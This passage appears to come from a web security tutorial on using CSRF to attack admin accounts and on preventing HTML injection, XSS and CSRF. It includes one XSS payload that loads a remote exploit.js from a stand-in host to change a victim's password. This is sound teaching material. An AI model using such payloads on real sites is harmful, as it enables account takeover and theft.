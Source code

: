 `CSRF` can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using `JavaScript` code that would return the session cookie, we would load a remote `.js` (`JavaScript`) file, as follows:

Code: html

```html
"><script src=//www.example.com/exploit.js></script>
```

The `exploit.js` file would contain the malicious `JavaScript` code that changes the user's password. Developing the `exploit.js` in this case requires knowledge of this web application's password changing procedure and `APIs`. The attacker would need to create `JavaScript` code that would replicate the desired functionality and automatically carry it out (i.e., `JavaScript` code that changes our password for this specific web application).

***

### Prevention

Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:

<table><thead><tr><th width="188">Type</th><th>Description</th></tr></thead><tbody><tr><td><code>Sanitization</code></td><td>Removing special characters and non-standard characters from user input before displaying it or storing it.</td></tr><tr><td><code>Validation</code></td><td>Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)</td></tr></tbody></table>

Furthermore, it is also important to sanitize displayed output and clear any special/non-standard characters. In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like `HTML Injection`, `XSS`, or `CSRF`. Another solution would be to implement a [web application firewall (WAF)](https://en.wikipedia.org/wiki/Web\_application\_firewall), which should help to prevent injection attempts automatically. However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on an appliance to detect/block attacks.

As for `CSRF`, many modern browsers have built-in anti-CSRF measures, which prevent automatically executing `JavaScript` code. Furthermore, many modern web applications have anti-CSRF measures, including certain HTTP headers and flags that can prevent automated requests (i.e., `anti-CSRF` token, or `http-only`/`X-XSS-Protection`). Certain other measures can be taken from a functional level, like requiring the user to input their password before changing it. Many of these security measures can be bypassed, and therefore these types of vulnerabilities can still pose a major threat to the users of a web application. This is why these precautions should only be relied upon as a secondary measure, and developers should always ensure that their code is not vulnerable to any of these attacks.

This [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site\_Request\_Forgery\_Prevention\_Cheat\_Sheet.html) from OWASP discusses the attack and prevention measures in greater detail.
